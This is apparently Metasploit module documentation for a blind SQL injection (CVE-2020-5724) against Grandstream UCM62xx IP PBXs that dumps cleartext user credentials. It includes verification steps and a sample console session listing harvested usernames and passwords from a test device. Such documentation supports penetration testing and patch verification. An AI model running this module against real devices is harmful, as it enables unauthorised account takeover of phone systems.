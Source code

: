 ## Vulnerable Application

### Description

This module uses a blind SQL injection (CVE-2020-5724) affecting the Grandstream UCM62xx
IP PBX to dump the users table. The injection occurs over a websocket at the websockify
endpoint, and specifically occurs when the user requests the challenge (as part of a
challenge and response authentication scheme). The injection is blind, but the server
response contains a different status code if the query was successful. As such, the
attacker can guess the contents of the user database. Most helpfully, the passwords are
stored in cleartext within the user table (CVE-2020-5723).

This issue was patched in Grandstream UCM62xx IP PBX firmware version 1.20.22.

### Installation

The UCM62xx PBX is a physical device and is not known to have been successfully emulated.
However, if you have a device, affected firmware can be downloaded here:

* http://firmware.grandstream.com/Release_UCM62xx_1.0.20.22.zip

## Verification Steps

* Acquire an affected device and configure it with the affected firmware
* Do: `use auxiliary/gather/grandstream_ucm62xx_sql_account_guess`
* Do: `set RHOST <ip>`
* Do: `check`
* Do: Verify the remote host is vulnerable.
* Do: `run`
* You should get a list of valid credentials for the target device.

## Options

### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Grandstream UCM6202 IP PBX firmware version 1.0.20.20

```
msf > use auxiliary/gather/grandstream_ucm62xx_sql_account_guess
msf auxiliary(gather/grandstream_ucm62xx_sql_account_guess) > set RHOST 10.0.0.7
RHOST => 10.0.0.7
msf auxiliary(gather/grandstream_ucm62xx_sql_account_guess) > check

[*] Requesting version information from /cgi
[*] 10.0.0.7:8089 - The target appears to be vulnerable. The self-reported version is: 1.0.20.20
msf auxiliary(gather/grandstream_ucm62xx_sql_account_guess) > run
[*] Running module against 10.0.0.7

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting version information from /cgi
[+] The target appears to be vulnerable. The self-reported version is: 1.0.20.20
[*] Found the following username and password: admin - cheesed00dle
[*] Found the following username and password: 1000 - gZ15S8O8U5S72oli
[*] Found the following username and password: 1001 - qK6uRxwC
[*] Found the following username and password: 1002 - aP9ux515W7p5U
[*] Found the following username and password: 1003 - pM6mo!E8u37k
[*] Found the following username and password: 1004 - mC7N68dm8h
[*] Auxiliary module execution completed
msf auxiliary(gather/grandstream_ucm62xx_sql_account_guess) > 
```
